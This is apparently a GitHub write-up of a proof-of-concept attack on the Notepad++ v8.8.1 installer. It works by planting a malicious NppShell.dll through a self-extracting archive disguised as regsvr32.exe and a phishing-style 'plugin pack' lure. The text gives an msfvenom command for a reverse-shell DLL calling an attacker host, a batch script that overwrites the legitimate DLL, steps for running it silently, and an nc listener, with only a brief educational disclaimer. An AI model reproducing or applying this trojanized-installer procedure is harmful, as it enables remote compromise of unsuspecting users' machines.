 # test-notepad-v8.8.1
this is what i do, and at the same time im learning too

"Here’s a new plugin pack for Notepad++ to improve your coding productivity! Download it now 💡✨"
yes it is pack with real installer and regsvr32.exe , and yes the attack starts there, phishing and social engineering at its best

# DLL Hijacking in Notepad++ v8.8.1: A Practical PoC Write-up

# Introduction
I tried demonstrate a proof-of-concept (PoC) exploit targeting Notepad++ v8.8.1, which is vulnerable to DLL hijacking via the NppShell.dll component(you also can try with others dll files within the notepad installer). This PoC shows how an attacker can achieve arbitrary code execution by planting a malicious DLL and tricking the application into loading it.

⚠️ Disclaimer: This write-up is for educational purposes only. Always test in isolated environments and never target unauthorized systems.

# What is DLL hijacking?
DLL hijacking is a well-known attack technique where an application loads a malicious DLL instead of a legitimate one due to insecure search paths or missing integrity checks. Once the application loads the malicious DLL, attacker-controlled code executes in the context of the application.

🛠️ Environment setup
Victim machine: Windows 11 with Notepad++ v8.8.1 installed

Attacker machine: Kali Linux (any ver)

Tools used: msfvenom, batch scripting, WinRAR (SFX builder)

#  Step-by-step exploit process
1️⃣ Create the malicious NppShell.dll
On Kali, generate a reverse shell DLL payload using msfvenom:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll -o NppShell.dll

2️⃣ Prepare an installer batch script
Write a simple install.bat:

echo off
cls
copy /Y NppShell.dll "C:\Program Files\Notepad++\contextMenu\NppShell.dll"
This script overwrites the legitimate NppShell.dll in Notepad++.

3️⃣ Bundle files using SFX archive
Bundle NppShell.dll and install.bat into a self-extracting (SFX) archive named regsvr32.exe.

Configure SFX to automatically run install.bat after extraction.

4️⃣ Deploy and execute

Place the Notepad++ v8.8.1 installer and the malicious regsvr32.exe in the same directory on the victim machine.

5️⃣ Trigger execution

The victim simply double-clicks the Notepad++ installer. Simultaneously, the crafted regsvr32.exe is launched stealthily, executing install.bat to overwrite NppShell.dll with the backdoored DLL.
Because the SFX configuration runs the batch script silently, the victim does not see any additional windows or warnings.
When Notepad++ installed, it automatically loads NppShell.dll. Because it now points to the attacker DLL, your reverse shell connects back to your Kali listener.

6️⃣ Boom! 🎯
On your Kali machine, listen for the shell:

nc -lvnp <attacker_port>
Once Notepad++ installed, connection established — you now have code execution on the victim.

 # Important Notes ⚠️ 
This PoC only works during the installation phase.
It requires the victim to execute a trojanized installer package that includes your malicious DLL and script.
It does not work on already installed and running Notepad++ software if it was installed correctly before.



